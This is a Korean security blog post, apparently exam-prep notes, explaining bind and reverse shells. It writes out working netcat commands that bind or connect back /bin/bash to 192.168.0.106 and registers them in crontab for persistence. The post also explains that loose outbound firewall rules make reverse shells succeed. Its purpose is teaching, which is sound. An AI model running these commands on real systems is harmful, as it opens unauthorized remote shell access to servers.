 ```yaml
---

layout: single
title: 바인드 쉘(Bind Shell), 리버스 쉘(Reverse Shell)   
category: 컴퓨터1
tag: [보안, security, 정보보안기사]
published: true

---
```


## Outline
- 바인드 쉘과 리버스쉘의 쉘 획득 원리 설명
- 리버스 쉘이 성공하게 되는 서버의 취약 설정 설명
- 바인드 쉘과 리버스 쉘을 이용한 쉘 권한 획득 실습

## 바인드 쉘 (Bind Shell)

클라이언트/공격자가 서버에 접속하여 서버의 쉘을 획득하는 방식


![Pasted image 20230509205411.png]({{site.url}}/_images/2023-05-14-01/Pasted%20image%2020230509205411.png)

1. Alice는 서버 쉘 획득을 위해 사전에 서버에 접속하여 **nc -lvp 1234 -e /bin/bash** 명령을 **crontab(서버스케줄러)**\에 등록하여 1234 포트를 listen 상태로 유지한다.
2. 이후 Alice는 언제든지 Bob의 서버에 1234포트로 원격 접속 할 수 있다.    
![screenshot 1.png](/_images/2023-05-14-01/screenshot%201.png)

## 리버스 쉘 (Reverse Shell)

타겟 서버가 클라이언트/공격자로 접속해 클라이언트가 서버의 쉘을 획득하는 방식
일반적으로 **서버방화벽(iptables)** 의 인바운드 정책의 경우 공개 서비스에 대해서만 화이트리스트 방식으로 엄격히 관리하지만 아웃바운드 정책의 경우 비교적 느슨하게 관리하는 취약점을 노린 공격이다.

![Pasted image 20230509220225.png](/_images/2023-05-14-01/Pasted%20image%2020230509220225.png)

1. Alice는 기존 바인드 쉘(Bind Shell)을 이용한 공격에 실패하고 그 원인을 방화벽 설치로 추측 하여 리버스 쉘(Reverse Shell)공격을 시도 한다.
2. Alice는 사전에 서버에 접속하여 자신의 PC에 접속을 시도하여 쉘(/bin/shell)을 실행하는 명령 **nc -e /bin/bash 192.168.0.106** 을 **crontab(서버스케줄러)** 에 등록한다.
3. 이후 Alice는 자신의 PC에 1234포트를 listen상태로 놓고(**nc -lp 1234**) 서버의 접속요청을 기다린다.
4. 서버요청이 연결되면 서버의 쉘 사용이 가능하다.    
![screenshot 2.png](/_images/2023-05-14-01/screenshot%202.png)

## connection documents
- 